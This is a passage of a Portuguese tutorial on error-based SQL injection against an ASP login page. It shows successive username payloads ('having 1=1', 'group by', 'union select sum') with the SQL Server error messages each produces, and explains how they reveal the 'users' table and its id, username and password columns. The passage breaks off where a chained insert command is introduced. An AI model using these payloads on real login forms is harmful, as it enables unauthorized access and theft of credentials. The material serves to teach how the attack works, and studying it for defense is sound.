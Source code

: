 
## 5) Outros códigos SQL de ataque


### 5.1) ```Username: ' having 1=1—```

-- Error
Microsoft OLE DB Provider for ODBC Drivers error '80040e14’
[Microsoft][ODBC SQL Server Driver][SQL Server]Column 'users.id' is invalid in the select list because it is not contained in an aggregate function and there is no GROUP BY clause

/process_login.asp, line 35

**Conquista do hacker:** Ele descobre que existe uma tabela **users** e que a primeira coluna é ```users.id```
Usando o comando ```HAVING 1=1 --``` faria com que qualquer coisa após o -- fosse desconsiderada, porque é um comentário em SQL. Por exemplo, a parte da consulta que verifica a senha seria ignorada, o que poderia permitir o login sem fornecer uma senha válida.

### 5.2) ```Username: ' group by users.id having 1=1—```

-- Error
Microsoft OLE DB Provider for ODBC Drivers error '80040e14’
[Microsoft][ODBC SQL Server Driver][SQL Server]Column 'users.username' is invalid in the select list because it is not contained in an aggregate function and there is no GROUP BY clause

/process_login.asp, line 35 

**Conquita do hacker:** ele descobre que a segunda coluna da tabela users é ```username```

### 5.3) ```Username: ' group by users.id, users.username having 1=1—```

-- Error
Microsoft OLE DB Provider for ODBC Drivers error '80040e14’
[Microsoft][ODBC SQL Server Driver][SQL Server]Column 'users.password' is invalid in the select list because it is not contained in an aggregate function and there is no GROUP BY clause

/process_login.asp, line 35 

**Conquita do hacker:** ele descobre que a terceira coluna da tabela users é ```password```.

### 5.4) ```Username: ' union select sum(username) from users—```

-- Error

Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a varchar data type as an argument

/process_login.asp, line 35

**Conquita do hacker:** ele descobre que a segunda coluna da tabela username tem variável do tipo **varchar**.

### 5.5) De posse dos campos do banco de dados, pode-se encadear (com “;”) um comando de inserção:
